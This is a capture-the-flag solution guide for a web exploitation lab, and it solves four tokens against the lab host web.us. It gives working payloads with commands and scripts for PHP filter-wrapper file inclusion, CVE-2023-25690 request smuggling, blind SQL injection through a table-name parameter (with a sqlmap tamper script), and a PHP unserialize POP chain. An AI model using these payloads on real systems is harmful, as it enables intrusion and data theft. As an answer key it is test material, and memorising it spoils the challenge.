

# WWW (Weak Web Warnings)

*Solution Guide*

## Overview

In WWW (Weak Web Warnings), the competitor is tasked with solving a variety of web exploitation challenges. Each vulnerability is a well-known issue, but are implemented so that they are either hard to detect, exploit, or both. For example, there is a blind SQL injection that cannot be detected or exploited with sqlmap by default. In addition to SQLi, there is also HTTP smuggling, PHP serialization, and source code leakage through PHP file inclusion.

The HTTP smuggling is based on the proof-of-concept for `CVE-2023-25690`: https://github.com/dhmosfunk/CVE-2023-25690-POC.

Note that each of the four tokens are randomly generated during challenge start up, so your values may differ from those seen here.

## Question 1

*Token 1: Retrieve the token found in a comment in the source of the website.*

*Enter the token found in the source code.*

Let's start with some simple recon. Visiting `web.us`, we find a really simple index page that simply contains three links.


1. `View Security Alerts: Events` goes to `http://web.us/alerts?t=Alerts`
    - Visiting this page, we see a simple HTML table with some security alerts.
2. `View Other Events: Events` goes to `http://web.us/alerts?t=Events`, the same URL as before but with a new `t` GET param value
    - The content is also similar, just different content in the same table (keep this in mind for later)
3. `Monitored Hosts: Hosts` goes to `http://web.us/hosts`
    - Another table, but with different content and an odd note about importing (also keep this in mind).

That's it. Those are all the pages on this site, and there isn't really much to interact with, although what we do have for now seems promising. At this point, we should begin 
messing with these inputs and trying to break things.

If we start with the URL itself, we can try seeing if there are any hidden files. As one possible scenario, we could try checking if there is a `robots.txt` page.

If we visit `web.us/robots.txt`, we get the following warning:

`Warning: include(robots.txt.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 21`


This lets us know that the server is using PHP, and we can see that our input is being passed as an argument to `include`. In PHP, `include` copies the content of the file into the current file (typically HTML) and executes any PHP code it contains (thus, any variables or classes declared in the file are now accessible). 

In this case, we can see a `.php` is appended to the file name. In older versions of PHP, we could use a `%00` on the end of the file, but testing this with `http://web.us/robots.txt%00` shows that is not possible here and we get a `404 Not Found` error.

<details>
<summary>why 404 and not 500 or a PHP warning?</summary>

Interestingly, this is not actually due to PHP here, but I believe is actually due to how redirects are handled during the proxy issue we will find when getting the next token. If the proxy is removed, I get the normal PHP warning you would expect.
</details>

<details>
<summary>What happens if you try to request index.php?</summary> 

If you try accessing `web.us/index.php?page=index.php`, you'll be greeted with this strange error message:

```none
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 28672 bytes) in /var/www/html/index.php on line 24
```

This error is occurring because `index.php` is including itself, causing `index.php` to be run a second time. The `include` is then executed once more, causing `index.php` to be executed repeatedly until the endless recursion causes the system to run out of memory, which results in the memory error seen above. 

Note that this can be prevented by changing the code to use the `include_once` function instead of `include`, but a secure application should avoid including user-specified code like this entirely. 

</details>

This means we cannot get rid of this `.php` on the end of the filename (at least, I couldn't do it). We could try pulling a remote file (PHP allows for remote file inclusion in include), but that is disabled on the server. You can try with `http:%252F/website` (the weird encoding will be covered shortly) but you'll get this warning: `Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in /var/www/html/index.php on line 21`.

Instead, we will use the `php://` URL wrapper. The `php://` [wrapper](https://www.php.net/manual/en/wrappers.php.php) allows access to various input/output streams, but most of these are either blocked and/or not helpful for leaking the source code. However, `php://filter` allows us to preprocess a file when it is opened. In particular, we can use the `base64-encode` filter to encode the PHP code before it is opened and executed by the `include` call. Since PHP will just copy any non-PHP code as text output, we can use this to retrieve the base64-encoded version of the website source code instead of executing it. 

That is, our goal is to run `include(php://filter/read=convert.base64-encode/resource=index.php)` instead of `include(index.php)` so the code is not executed, but printed. Here `read` refers to the filters we want to apply before reading (if we were writing we would instead use `write`), `convert.base64-encode` is the name of the filter we want to apply, and `resource` refers to the file or stream we want to target, which is `index.php` for now.

<details>
<summary>What about the other wrapper types?</summary> 

[PHP Wrapper Types](https://www.php.net/manual/en/wrappers.php)

- `file`: This is the default, so no point in using it
- `http/https`: Restricted by the PHP config `allow_url_include`
- `ftp/ftps`: Restricted by the PHP config `allow_url_include`
- `zlib`: Allowed, but not helpful in this scenario as we don't have any such file
- `data`: Restricted by the PHP config `allow_url_include`
- `glob`: Does not work in this context (gives `failed to open stream: wrapper does not support stream open`)
- `phar` (think JAR files in Java, but for PHP): Allowed, but not helpful in this scenario as we don't have any such file
- `ssh2`: Not enabled by default, and would be restricted
- `rar`: Allowed, but not helpful in this scenario as we don't have any such file
- `ogg`: Not enabled by default, and not helpful in this scenario as we don't have any such file
- `expect`: Not enabled by default, and I'm not sure that it would be helpful regardless
</details>

Now that we know what our goal is, let's inject our payload: `php://filter/read=convert.base64-encode/resource=index` (note we leave off the `php` as that is added by the code). Unfortunately, we get another warning. `Warning: include(php:/filter/read=convert.base64-encode/resource=index.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 21`



This looks almost like what we wanted, except the `php://` has become `php:/`. Like the challenge description suggests, this is where we need a clever trick to get this to work. Since this is being passed through a proxy (which we know based on the challenge tasks), we can try double encoding the problematic `/` so it is not removed. We can either do it manually by looking up the encoding values, or use a tool like python or an online tool like [https://www.urlencoder.org/](https://www.urlencoder.org/). Double encoding: `/` -> `%2F` -> `%252F`. With the double encoding, the proxy will no longer rewrite `//` to `/` as it will only decode once and receive the three characters `% 2 F`. Replacing both of the slashes gives us `php:%252F%252Ffilter/read=convert.base64-encode/resource=index` as our new payload (note you only need to replace one). Try the exploit again: 


The correct `php://` wrapper has now being passed, and we receive the base64-encoded source code. You can copy and paste that into a decoder or the command line, or, alternatively, use the following command to visit the URL, decode the output, and save it to a file:

```bash
curl "http://web.us/php:%252F%252Ffilter/read=convert.base64-encode/resource=index" | base64 -d > index.php
```

Using the above script (or another method), we can now see the decoded PHP source code.


We don't know which file the token is in (and having the code will be useful either way), so let's pull all of the code that we know about. Earlier, we visited `alerts` and `hosts`, and in the `index.php` code we can see a reference to `envHandler.php`. The challenge description mentions `token.php`, but that will fail (we will see that later).

```bash
# All four files to pull
curl "http://web.us/php:%252F%252Ffilter/read=convert.base64-encode/resource=index" | base64 -d > index.php
curl "http://web.us/php:%252F%252Ffilter/read=convert.base64-encode/resource=alerts" | base64 -d > alerts.php
curl "http://web.us/php:%252F%252Ffilter/read=convert.base64-encode/resource=hosts" | base64 -d > hosts.php
curl "http://web.us/php:%252F%252Ffilter/read=convert.base64-encode/resource=envHandler" | base64 -d > envHandler.php
```

Take some time to look over the code, which can be found in full under [../challenge/server](../challenge/server); key sections of`index.php` with added comments explaining the code and the token in `hosts.php` can be found below. The other files will be similarly explained when we tackle the remaining tokens.

```php
//index.php, lines 11-26

# If you tried to access token.php during this step, this section of code blocks it
if (strpos(strtolower($_GET["page"]), 'token') !== false) {
    echo "Sneaky sneaky, but you can't request token.php that way!";
}

# This section loads the default content when no page is specified that we saw in the beginning
else if($_GET["page"] == ""){
    echo "<h1>Internal Web Alerts Page</h1>";
    echo "<p>View Security Alerts: <a href='http://$webhost/alerts?t=Alerts'>Events</a></p>";
    echo "<p>View Other Events: <a href='http://$webhost/alerts?t=Events'>Events</a></p>";
    echo "<p>Monitored Hosts: <a href='http://$webhost/hosts'>Hosts</a></p>";
}

//This final section is where our vulnerability lies. We can see the proxy must have converted the URL into a GET param page, then directly passes that to the include function.
else{
    include($_GET["page"] . ".php");
}
``` 

```php 
//hosts.php, lines 12-16

<?php 

//The following line will contain the token, placed there when the challenge is started (see image)
//Comment token: TOKENSOURCE

include_once("envHandler.php");
```


In this case, the token was `56d4b8d36e95`.

## Question 2

*Token 2: `Sneak` past the web proxy and successfully make a request for the `token.php` page. The token will be printed at the top of every page after `token.php` is executed.*

*Enter the token printed at the top of any page after sneaking a request to token.php.*

If you haven't already done so, first try to visit `token.php` directly. All you will receive is the message "Sneaky sneaky, but you can't request token.php that way!"

With all the evidence we found so far (some of it coming directly from the challenge description), we know that the web server is using a proxy server. We also know from `index.php` that we leaked in the last part that the proxy must be doing some sort of URL rewriting (the line `include($_GET["page"] . ".php");` takes the page from a GET parameter, whereas we send the proxy the page as part of the URL path). Let's first figure out what proxy server is being used.

```bash
curl -D - web.us
```

This gives us the following output, and lets us know that the proxy server is `Apache v2.4.54`.

```none
HTTP/1.1 200 OK
Date: Mon, 27 Jan 2025 13:49:32 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Length: 251
Content-Type: text/html; charset=UTF-8

<h1>Internal Web Alerts Page</h1><p>View Security Alerts: <a href='http://web.us/alerts?t=Alerts'>Events</a></p><p>View Other Events: <a href='http://web.us/alerts?t=Events'>Events</a></p><p>Monitored Hosts: <a href='http://web.us/hosts'>Hosts</a></p>
```

We now have what we need to continue. For this token, we will need to do some HTTP smuggling (specifically, HTTP splitting that leads to HTTP Smuggling) to get the Apache proxy to make the request on our behalf. Let's search online and see what we can find. Googling `Apache http smuggling 2.4.54` will probably bring up this Apache site: https://httpd.apache.org/security/vulnerabilities_24.html

There are several potential CVEs that might be what we are looking for, but the one we actually want is `CVE-2023-25690`. This one fits all of our needs: available on `Apache 2.4.54`, it forwards a new HTTP request to the proxy target, and occurs when re-inserting URL data into a proxy request. 

```none
important: HTTP request splitting with mod_rewrite and mod_proxy (CVE-2023-25690)
Some mod_proxy configurations on Apache HTTP Server versions 2.4.0 through 2.4.55 allow a HTTP Request Smuggling attack.

Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using variable substitution.

For example, something like:

RewriteEngine on

RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P]

ProxyPassReverse /here/ http://example.com:8080/

Request splitting/smuggling could result in bypass of access controls in the proxy server, proxying unintended URLs to existing origin servers, and cache poisoning.

Acknowledgements: finder: Lars Krapf of Adobe
```

We can then find a proof of concept for the exploit here: https://github.com/dhmosfunk/CVE-2023-25690-POC. In summary, the HTTP splitting occurs when CRLF characters are included in the rewritten URL; for more details, read through the proof of concept. For this challenge, we want to visit the page `token.php`, so our input will be `http://web.us/a%20HTTP/1.1%0D%0AHost:%20localhost%0D%0A%0D%0AGET%20/token.php`. Let's break that down. 

- `http://web.us/a%20`: The opening URL and page to request. We just use `a` here to make the rewrite happen correctly, but you could use a valid page name like `alerts.
- `HTTP/1.1%0D%0AHost:%20localhost%0D%0A%0D%0A`: This completes the first request by injecting the CRLF characters (`%0D%0A`), resulting in the following `GET` request 

```none 
GET a HTTP/1.1 
Host: localhost
```

- `GET%20/token.php`: This starts our new HTTP request, which will be completed using the HTTP version and Host intended for the first request

```none
GET token.php HTTP/1.1
Host: web.us
... Other header information originally included for first HTTP request...
``` 

Enter the URL into your browser URL (or whatever tool you are using). At first, it will appear like nothing has happened as our smuggled request occurs *after* the normal request.


However, after refreshing the page or visiting any valid page, we will see that token is now output at the top just as described in the challenge description.


In this case, the token is `4a52cf54c47a`.

<details>
<summary>Where did the token come from?</summary> 

Since we have access to the source code, we can see that the token is loaded and printed in `envHandler.php`. Since every page imports `envHandler.php`, every page checks if `token.txt` exists, and then outputs the token if it does. Note the function name and comments are included to prevent misleading competitors by making it clear which token this code refers to and thus how it is intended to be obtained. 

```php
//envHandler.php, Lines 41-50 
    public function printProxyToken(){
        //If token.php activated, print token
        if(file_exists("success.txt")){
            echo shell_exec('cat token.txt');
        }
    }
}

$env = new envHandler;
$env->printProxyToken();
```

</details>

## Question 3

*Token 3: There is a token in the database.*

*Enter the token found in the database.*

This token requires us to perform SQL injection to obtain it. Like the other challenges, this one is based on a unique SQL identifier injection attack I encountered while doing some research on the topic that is relatively common in Wordpress applications (and in PHP in general). Notably, sqlmap fails to detect and exploit this vulnerability.

For this token, we will be working with the `web.us/alerts` page. As we saw on the home page while retrieving Token 1, the full request is `web.us/alerts?t=Alerts` or `web.us/alerts?t=Events`, which determines the output of the table on the page. It seems likely this is a table name. Let's try changing that to some other value junk value like `1` or `'`: `web.us/alerts?t=Events`. Unfortunately, this simply prints `0 results` and gives no errors or warnings. Let's try `sqlmap` with the maximum level of tests and risk. Enter `no` when asked if you want to reduce the number of requests.

```bash
sqlmap --level=5 --risk=3 -p t -u "http://web.us/alerts?t=Alerts"
```

After it finishes running, we get the following output saying `t` is not injectable. 

```bash
[12:35:21] [WARNING] GET parameter 't' does not seem to be injectable
[12:35:21] [CRITICAL] all tested parameters do not appear to be injectable. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
```

That is odd, as this is the only spot we appear to be able to interact with the database. We do have access to the source code, however (note this is possible to complete without the source code, but you need to make assumptions about the underlying query). In `alerts.php` that we downloaded earlier, we have the following code. Note some comments have been added to the code to explain it.

```php
//alerts.php, Lines 10-34

// Retrieves the user's input
if($_GET["t"] != "")
    $table = $_GET["t"];
else   
    $table = "alerts";

//The following lines limit some of the code characters that may appear
$table = str_ireplace("-", "", $table);
$table = str_ireplace("#", "", $table);
$table = str_ireplace("/", "", $table);
$table = str_ireplace(";", "", $table);
$table = str_ireplace("U", "", $table);  //Prevents us from using UNION

$schema = $env->getDBSchema();

//The user input is concatenated with no escaping directly into the following query
//The rest of the code connects to the db then executes this query
//Finally, $schema is a static value of "web_alerts" from envHandler.php
$sql = "SELECT ID, Title, Message FROM $schema.$table WHERE resolved = 0;";

$dbname = $env->getDBSchema();

// Create connection
$conn = new mysqli($env->getDBServer(), $env->dbUser(), $env->dbPass(), $dbname);
// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

$result = $conn->query($sql);
```

Looking at this code, it is certainly vulnerable to SQL injection, but will require some special formatting in order to be syntactically valid SQL code. Note that we cannot use some characters; notably, we cannot inject comments and we can't use the keyword `UNION` since the letter `U` is blocked (even with this filtering removed, `sqlmap` will not detect the vulnerability).

```sql
SELECT ID, Title, Message FROM web_alerts.$table WHERE resolved = 0;
```

We know from the challenge description that we are looking to retrieve a column `Token` from the `Token` table. We cannot just enter `Token` as the table name as that would not give us any results (it silently throw a semantic error since none of those columns are defined for table `Token`).

Instead we can use the `SELECT * FROM A,B` syntax to write a new subquery. When you have multiple tables listed in `FROM`, it returns the cartesian product (or cross join) of the two tables; that is, every result in table A is joined with every result in table B.  We can confirm this works by injecting a simple query: `Alerts, (SELECT 1) as a`. This gives us the following query. Note the `as a` after the subquery; in MySQL, it is necessary to define an alias for all subqueries used as part of the `FROM`.

```sql
SELECT ID, Title, Message FROM web_alerts.Alerts, (SELECT 1) as a WHERE resolved = 0;
```

Running this query by visiting `http://web.us/alerts?t=Alerts,%20(SELECT%201)%20as%20a` will give us the normal results.


Now let's try `Alerts, (SELECT 1 FROM Alerts WHERE ID = 0) as a`. Note that the subquery will return no results, since there is no alert with ID 0. With no results in Query B, Query A is joined to nothing, so there are no results.


The query `Alerts, (SELECT 1 FROM Alerts WHERE ID = 1) as a` will return results, as the subquery has results. This is how we will determine the contents of the token despite being unable to retrieve and read it directly. To do so, we will use the input `Alerts, (SELECT Token FROM Token WHERE Token LIKE '%x%')`

```sql
SELECT ID, Title, Message FROM web_alerts.Alerts, (SELECT Token FROM Token WHERE Token LIKE '%x%') WHERE resolved = 0;
```

The above query takes advantage of wild cards and `LIKE` to return results if the Token column contains the character `x`, and no results if it does not. For example, if we start with `a`, and results are returned, we can then try (`aa`, `ba`, `ab`, `ca`) and so on until we find the full token value. We know the token consists of 12 hexadecimal characters; it is possible, but painful, to do this by hand. Instead, we can use the following Python script (note if using VS Code, you may want to turn off `auto indent` in the settings before pasting):

```python
import requests

chars = "1234567890abcdef"

token = ""

def getUrl(token):
    return f"http://web.us/alerts?t=Alerts,%20(SELECT%20Token%20FROM%20Token%20WHERE%20Token%20LIKE%20%22%25{token}%25%22)%20as%20a"

while len(token) < 12:
    length = len(token)
    for c in chars:
        r = requests.get(getUrl(c + token))
        if "Admin" in r.text:
            token = c + token
            print(token)
        r = requests.get(getUrl(token + c))
        if "Admin" in r.text:
            token = token + c
            print(token)
    if len(token) == length:
        print(f"Did not make any progress this last loop! Got {token}")
print(token)
```


In this case, the token was `2863c4eedadd`.

<details>
<summary>Can we get sqlmap to do this?</summary> 

Yes! The problem is that `sqlmap` does not handle the needed table alias. If we write a custom tamper script, we can add the needed alias to all of the payloads. This will be less efficient than our custom script, of course, especially since it ends up using a time-based blind, but it does work!

First, create your tamper script -- I made this one based on the tutorial at https://lucadidomenico.medium.com/how-to-write-custom-tamper-scripts-for-sqlmap-93927808809e

```python
#!/usr/bin/env python

#tamper.py
from lib.core.enums import PRIORITY
import re
__priority__ = PRIORITY.NORMAL
def dependencies():
    pass
def tamper(payload, **kwargs):
    return payload + " as a"
```

You will also need an empty init script in the same directory as tamper.py

```bash
echo "" > "__init__.py"
```

You can then run sqlmap like this:

```bash
sqlmap --level 5 --risk 3 -p "t" -u "web.us/alerts?t=Alerts" --tamper "./tamper.py"
```

You'll eventually get the following output:

```bash
[14:54:23] [INFO] GET parameter 't' appears to be 'MySQL >= 5.0.12 time-based blind - ORDER BY, GROUP BY clause' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
[14:54:30] [ERROR] user quit
```

With the vulnerability found, you can use `sqlmap` as normal to extract the table contents.

</details>

## Question 4

*Token 4: There is another token stored in the environment variables.*

*Enter the token found in the environment variables.*

The final token will be found at `web.us/hosts`, and we will also need the contents of `envHandler.php`. Some good progress can be made without leaking the source code first, but it is likely impossible to complete without.

Let's first take a look at the page.


We see another HTML table with some host names, usernames, and security tokens.  There is also an odd Export String that we can assume with high confidence is base64 encoded given the `==` at the end and a text box to upload an Import String. Now we can review the source code; as before, I have put additional comments in place to explain the code where necessary.

```php
//hosts.php, Lines 16-65

include_once("envHandler.php");

// A simple class that holds Host information; calls the get functions when printing the table
class Host{
    private $hostname;
    private $user;
    private $password;

    function __construct($name, $user, $pass){
        $this->hostname = $name;
        $this->user = $user;
        $this->password = $pass;
    }

    public function getHostname(){
        return $this->hostname;
    }

    public function getUser(){
        return $this->user;
    }

    public function getToken(){
        return $this->password;
    }
}

//Stores the array of hosts and handles printing out the hosts table
class HostHandler{
    private $hosts;

    function __construct($hosts){
        $this->hosts = $hosts;
    }

    public function printHosts(){
        echo "<table>";
        echo "<tr><th>Host</th><th>User</th><th>Security Token</th></tr>";
        foreach($this->hosts as $host){
            echo "<tr><td>" . $host->getHostname() . "</td><td>" . $host->getUser() . "</td><td>" . $host->getToken() . "</td></tr>";
        }
        echo "</table>";
    }
}

//The default hosts printed on the page
$defaultHosts = [new Host("www.irc.com", "hackerman", "hunter2"), new Host("kali.us", "user", "tartans"), new Host("www.business-site.com", "user", "MySecretPassword123!")];

$hosts = new HostHandler($defaultHosts);

//Replaces the HostHandler using base64 and PHP's unserialize
if($_POST["import"] != ""){
    $hosts = unserialize(base64_decode($_POST["import"]));
}
```

Because unserialize is called on user input, we can take advantage of PHP Object Injection. Let's confirm this, first, by checking the export string. Copy-paste the export string into a file (I use `string.txt`), and run `base64 -d`.

```bash
base64 -d string.txt
```

This will output the following string:

```php
O:11:"HostHandler":1:{s:18:"HostHandlerhosts";a:3:{i:0;O:4:"Host":3:{s:14:"Hosthostname";s:11:"www.irc.com";s:10:"Hostuser";s:9:"hackerman";s:14:"Hostpassword";s:7:"hunter2";}i:1;O:4:"Host":3:{s:14:"Hosthostname";s:7:"kali.us";s:10:"Hostuser";s:4:"user";s:14:"Hostpassword";s:7:"tartans";}i:2;O:4:"Host":3:{s:14:"Hosthostname";s:21:"www.business-site.com";s:10:"Hostuser";s:4:"user";s:14:"Hostpassword";s:20:"MySecretPassword123!";}}}
```

This is a good start, but now we need to find some way to get the token from the environment variables. Let's take a look at `envHandler.php`; as before, I add additional comments where warranted.

```php
// envHandler.php, Lines 3-47
class envHandler {
    //Note this function shares a name with a function in the class Host from Hosts.php
    public function getHostname(){
        return "web.us";
    }

    public function getDBServer(){
        return "db";
    }

    public function getDBSchema(){
        return "web_alerts";
    }

    public function dbUser(){
        return "user";
    }

    public function dbPass(){
        return "tartans";
    }

    public function getINI(){
        return $_ENV["PHP_INI_DIR"];
    }

    //Note this function shares a name with a function in the class Host from Hosts.php
    public function getUser(){
        return $_ENV["APACHE_RUN_USER"];
    }

    //Prints the token (note the comment inside the function is always there)
    //Note this function shares a name with a function in the class Host from Hosts.php
    public function getToken(){
        //You can't make me call this!
        return $_ENV["token"];
    }

    //This is not relevant for this Token
    public function printProxyToken(){
        //If token.php activated, print token
        if(file_exists("success.txt")){
            echo shell_exec('cat token.txt');
        }
    }
}
```

So the `envHandler` class has a function that prints the token and this function `getToken` happens to have the same name as a function called in `hosts.php`. We can use this as our very simple POP chain (POP is Property Oriented Programming); that is, we will create our `HostHandler` serialized string, but change the contents of the `$hosts` property to be an array with a single `envHandler` type object.

```php
foreach($this->hosts as $host){
    echo "<tr><td>" . $host->getHostname() . "</td><td>" . $host->getUser() . "</td><td>" . $host->getToken() . "</td></tr>";
}
```

When the above code is called in `hosts.php`, the `$host` variable will no longer be a `Host` class object, but an `envHandler` object. Thus, `$host->getToken()` will now call the `getToken` method from `envHandler`, and print out our token.

To create our serialized string, it is easiest to just write some PHP code and serialize it, rather than trying to modify the existing string. To do this, create a file (I'll call it `serial.php`) and enter the following PHP code.

```php
<?php 
class envHandler {}

class HostHandler{
    private $hosts;

    function __construct($hosts){
        $this->hosts = $hosts;
    }
}

//The following line creates an array with a single envHandler, and stores that array as the hosts property of the new HostHandler 
$payload = new HostHandler([new envHandler()]);
echo base64_encode(serialize($payload));
//Output: TzoxMToiSG9zdEhhbmRsZXIiOjE6e3M6MTg6IgBIb3N0SGFuZGxlcgBob3N0cyI7YToxOntpOjA7TzoxMDoiZW52SGFuZGxlciI6MDp7fX19
```

Note that the PHP classes only define the classes and properties; we do not define the methods, since those are not serialized and thus not necessary. Run the PHP script (or copy the output from the above comment) using `php serial.php`, and upload the output to the import script.


<details>
<summary>What does the serialized string look like?</summary> 

Before it is base64 encoded, the serial string looks like this:


```bash
php serial.php | base64 -d
```

```php
O:11:"HostHandler":1:{s:18:"HostHandlerhosts";a:1:{i:0;O:10:"envHandler":0:{}}}
```

</details>


The image below shows the result, with the table now being incorrectly populated with environment variables. The host, user, and security token have been replaced with the server's values (e.g., the host is now `web.us`). The token is shown under the `Security Token` heading, and is underlined in red.


In this case, the token is `2bfec67dc41c`.